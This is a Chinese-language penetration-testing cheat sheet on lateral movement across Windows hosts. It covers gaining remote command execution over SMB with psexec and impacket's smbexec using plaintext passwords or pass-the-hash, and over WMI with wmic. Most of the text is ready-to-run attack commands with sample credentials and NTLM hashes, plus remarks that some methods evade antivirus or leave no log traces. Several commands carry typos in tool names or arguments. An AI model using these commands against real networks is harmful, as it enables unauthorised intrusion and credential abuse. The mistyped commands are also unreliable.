 * --force 单独破解一条md5需要加force参数



## 利用SMB服务可以通过明文或hash传递来远程执行

> SMB是Windows系统的协议名，用于在计算机间共享文件、打印机、串口等，电脑上的网上邻居由它实现，默认端口445
>
> 文件共享是指主动地在网络上共享自己的计算机文件。一般文件共享使用P2P模式，文件本身存在用户本人的个人电脑上。大多数参加文件共享的人也同时下载其他用户提供的共享文件。有时这两个行动是连在一起的。在很早期的windows中(windows2000以下)，文件共享服务是利用TCP的139端口实现的，服务名是SMB。后来，微软又把SMB改名为CIFS协议，并且使用的是TCP的445端口

条件： 开放445端口，并且知道对方的用户名和密码或者hash

### 利用psexec（官方工具）

方法一：先有ipc链接，psexec需要明文或hash传递

```powershell
# 建立链接
net use \\192.168.10.1\ipc$ "abc.123.com" /user:administrator
# 利用psexec横向渗透
pesexec \\192.168.10.1 -s cmd  # -s 以system权限运行
```

方法二：不用建立IPC直接提供明文账户密码

```powershell
psexec \\192.168.10.1 -u administrator -p Admin12345 -s cmd

# 当通过hash传递的时候出现问题时，可以通过非官方的impacket工具包，工具包里面也有psexec（可能会免杀）
psexec -hashes :$HASH$ ./administrator@10.1.2.3
psexec -hashes :$HASH$ domain/administrator@10.1.2.3
psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.10.1
```

### 采用非官方自带工具smbexec（操作简单，容易被杀）

```powershell
# 无需ipc链接，可以明文或hash传递
smbexec god/administrator:Admin12345@192.168.10.1
smbexec ./administrator:abc.123.com@192.168.10.1
smbexec -hashes :$HASH$ ./admin@192.168.10.1
smbbexec -hashes :$HASH$ domain/admin@192.168.3.21
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
smbexec -hashes :ccef208c6485269c20db2cad21734fe7god/administrator@192.168.3.21
```

## 利用WMI服务进行利用

> WMI是通过135端口进行利用，支持用户名明文或者hash的方式认证，并且该方法不会在目标日志留下痕迹

### 自带WMIC 明文传递 无回显（不会被杀）

```powershell
# 复现成功有点慢
wmic /node:192.168.10.1 /user:administrator /password:abc.123.com process call create "cmd.exe /c ipconfig >C:\1.txt"
```

